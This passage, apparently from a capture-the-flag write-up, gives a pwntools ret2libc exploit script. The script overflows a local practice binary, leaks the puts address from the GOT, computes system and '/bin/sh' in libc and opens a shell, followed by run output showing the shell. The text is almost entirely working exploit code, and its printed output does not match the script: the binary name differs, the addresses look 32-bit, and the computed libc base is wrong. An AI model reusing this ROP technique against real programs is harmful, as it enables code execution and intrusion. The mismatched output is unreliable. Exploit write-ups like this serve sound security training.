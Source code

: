 \begin{lstlisting}
#!/usr/bin/python
from pwn import *

PUTS_PLT_ADDRESS = 0x400430
PUTS_GOT_ADDRESS = 0x601018
MAIN_ADDRESS     = 0x400566
PUTS_OFFSET      = 0x06f690
SYSTEM_OFFSET    = 0x045390
BIN_SH_OFFSET    = 0x18cd17

rop = "A" * 40
# 0x0000000000400613 : pop rdi ; ret
rop += p64(0x400613) + p64(PUTS_GOT_ADDRESS)
rop += p64(PUTS_PLT_ADDRESS)
rop += p64(MAIN_ADDRESS)

p = process("./make_leak")
p.sendline(rop)
p.readuntil("week.\n")

puts_leak = u64(p.read(6) + "\x00\x00")
log.info("leaked puts address: 0x{:>8x}".format(puts_leak))
libc_base_address = puts_leak - PUTS_OFFSET
system_address    = libc_base_address + SYSTEM_OFFSET
bin_sh_address    = libc_base_address + BIN_SH_OFFSET
log.info("found libc base address: 0x{:>8x}".format(libc_base_address))
log.info("found system address: 0x{:>8x}".format(system_address))
log.info("found \"/bin/sh\" address: 0x{:>8x}".format(bin_sh_address))

rop = "A" * 40
# 0x0000000000400613 : pop rdi ; ret
rop += p64(0x400613) + p64(bin_sh_address)
rop += p64(system_address)

p.sendline(rop) 
p.interactive()
\end{lstlisting}

When the script is run, it does indeed spawn a shell.

\begin{lstlisting}
> ./input_makeLeak.py
[+] Starting local process './makeLeak': pid 22514
[*] leaked puts address: 0xf7636ca0
[*] found libc base address: 0xf75d7000
[*] found system address: 0xf7611da0
[*] found "/bin/sh" address: 0xf77329ab
[*] Switching to interactive mode
Welcome to the No Security Aggregate
Please sign in with your name.
You tricked us last time with that planted pointer...we won't get fooled again.
Please take a seat, we'll be with you at some point this week.
$ whoami
devneal
$
\end{lstlisting}
